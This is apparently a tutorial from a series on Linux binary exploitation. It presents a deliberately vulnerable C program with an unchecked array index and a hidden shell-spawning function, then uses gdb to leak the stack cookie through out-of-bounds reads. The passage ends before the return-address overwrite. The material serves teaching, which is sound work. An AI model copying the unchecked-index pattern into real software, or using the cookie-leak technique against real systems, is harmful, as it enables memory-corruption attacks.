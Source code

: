 # Introduction to Linux pwn - Overriding the return address

[Last time](https://github.com/yo-yo-yo-jbo/linux_pwn_intro) we described stack-smashing by overriding a variable, but this time we're going a bit more serious and overriding the return address.  
For that, I will introduce with another nice way of defeating stack cookies on the way. Let's jump right into it!

```c
#include <stdio.h>
#include <unistd.h>

#define LEN (10)

static
void
give_shell(void)
{
        printf("woot!\n");
        execve("/bin/sh", NULL, NULL);
}

static
void
storage()
{
        int arr[LEN] = { 0 };
        char menu_choice = 0;
        int index_choice = 0;

        setbuf(stdout, NULL);
        printf("Welcome to my awesome storage program!\n");

        // Handling menu forever
        for (;;)
        {
                // Getting the menu choice
                printf("Enter [R] to read, [W] to write or [Q] to quit: ");
                scanf(" %c", &menu_choice);

                // Handling quits
                if (menu_choice == 'Q')
                {
                        printf("Quitting.\n");
                        break;
                }

                // Handling wrong choices
                if ((menu_choice != 'R') && (menu_choice != 'W'))
                {
                        printf("Wrong choice.\n");
                        continue;
                }

                // Getting the index with a bounds check
                printf("Enter the array index: ");
                scanf("%d", &index_choice);

                // Handling reads
                if (menu_choice == 'R')
                {
                        printf("Value: %d\n", arr[index_choice]);
                        continue;
                }

                // Handling writes
                printf("Enter value: ");
                scanf("%d", arr+index_choice);
        }
}

int main()
{
        storage();
        return 0;
}
```

Well, let's analyze it!
- We have a "storage system" which is really just an array of 10 integers, where we can read and write freely.
- The index is never validated, which is very problematic - we can give either negative values or incides that are out-of-bounds!

This kind of condition is amazing for exploitation since we have two "primitives":
1. `read-what-where` - we can read from arbitrary addresses.
2. `write-what-where` - we can write arbitrary values to arbitrary addresses.

This will help us take control of the program!

## Exploitation
The first thing we have to do is bypass the stack cookie. Since we have an arbitrary read primitive, we can simply read that value!  
The stack cookie index can be found dynamically. Note that an integer is a 4-byte value, so we will need to leak the high and low parts of the QWORD that is the stack cookie.  
Let us use `gdb` to determine the index:

```shell
$ gdb ./chall
(gdb) b *storage
Breakpoint 1 at 0x11fc
(gdb) r
Breakpoint 1, 0x00005555555551fc in storage ()
```

Now we continue using `ni` until we hit:

```assembly
0x555555555228 <storage+12>     mov    rax,QWORD PTR fs:0x28
0x555555555231 <storage+21>     mov    QWORD PTR [rbp-0x8],rax
```

Showing the value or `rax` reveals the cookie (you will obviously get a different value):

```shell
(gdb) p/x $rax
$1 = 0xf5995ae751a8b000
```

That means we are expecting two integers - one with the value ` 0xf5995ae7` (i.e. `-174499097`) and one with the value `0x51a8b000` (i.e. `1370009600`):

```
Welcome to my awesome storage program!
Enter [R] to read, [W] to write or [Q] to quit: R
Enter the array index: 10
Value: 1370009600
Enter [R] to read, [W] to write or [Q] to quit: R
Enter the array index: 11
Value: -174499097
```

The indices could be determined statically also, but I find the dynamic approach easier.
